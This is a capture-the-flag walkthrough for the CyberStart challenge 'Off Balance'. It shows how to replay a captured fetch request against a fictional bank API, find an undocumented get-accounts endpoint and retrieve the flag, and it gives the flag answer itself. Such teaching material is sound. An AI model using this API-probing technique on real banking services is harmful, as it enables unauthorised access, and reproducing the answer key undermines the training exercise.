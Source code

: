 ```yaml
---
title: Off Balance
permalink: /challenge/W0158
---
```


### Briefing: 
We're hot on the heels of catching this cyber gang but the closer we get, the more damage they try to inflict onto the Barcelona tourism industry!

This time, they've hacked into a large international bank's mobile application. Customers of the bank are complaining they can't see their current **balance** and these criminal masterminds need to be held to **account**. Intern, help customers retrieve their balances, so they can continue to spend their money during their well-earned holidays!

Helping our international friends will really help develop our **network**.

### Hint: 
If you check out the Network tab in the developer tools of your browser while you click on different pages in the app, you can see there are requests being made to an API. Try using a Linux command line tool like curl to talk to the API directly to see if you can get at the account balance that way.


### How to Solve: 
1. Open the Console. 
2. Navigate to the **Network** tab. 
3. Click on **Transactions** in the phone menu. 
4. Right-click on `get-transactions` > Copy > Copy as fetch 
5. In the console, paste the fetch (including all options) and change the URL from `https://cloudninebank.com/get-transactions` to `https://cloudninebank.com/` and click enter.
```js
fetch("https://cloudninebank.com/", {
    "headers": {
        "accept": "*/*",
        "accept-language": "en-US,en;q=0.9",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Chromium\";v=\"106\", \"Microsoft Edge\";v=\"106\", \"Not;A=Brand\";v=\"99\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "empty",
        "sec-fetch-mode": "cors",
        "sec-fetch-site": "cross-site"
    },
    "referrer": "https://play.cyberstart.com/",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "token=CNcsmXX5d50ZQCG5Us4twDi18awV",
    "method": "POST",
    "mode": "cors",
    "credentials": "omit"
});
```
6. Under **Name** (the list of all network requests), click on **cloudninebank.com** and go to **Response**. 
```json
{
    "data": {
        "endpoint": {
            "ref": "index",
            "protocol": "https://",
            "domain": "cloudninebank.com",
            "path": "/"
        },
        "user": {
            "id": "xgHof4h98"
        }
    },
    "links": {
        "get-accounts": "https://cloudninebank.com/get-accounts",
        "get-payments": "https://cloudninebank.com/get-payments",
        "get-transactions": "https://cloudninebank.com/get-transactions"
    }
}
```
7. Observe the links as there is no `get-balances` rather there is `get-accounts`. 
8. Go back to the console and make another fetch to `https://cloudninebank.com/get-accounts` with the same headers. 
9. Navigate to the Response tab once again and find `flag`, your flag should be there. 

### Answer:
- postD4ta_w1zard
